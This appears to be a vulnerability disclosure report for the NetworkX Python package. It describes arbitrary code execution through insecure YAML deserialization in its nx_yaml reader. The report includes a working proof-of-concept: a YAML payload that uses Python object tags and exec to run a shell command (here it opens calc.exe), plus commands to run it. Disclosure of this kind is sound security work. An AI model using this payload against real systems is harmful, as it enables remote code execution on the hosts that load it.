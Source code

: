 # Description

**NetworkX** is a Python package for the creation, manipulation, and study of the structure, dynamics, and functions of complex networks.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/networkx/networkx

# Proof of Concept

```python
from networkx.readwrite import nx_yaml

payload = '''
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
'''
open('pwn.yml', 'w+').write(payload)

nx_yaml.read_yaml('pwn.yml')
print("pwned! 🏴")
```

* `pip3 install networkx`
* `python3 exploit.py`
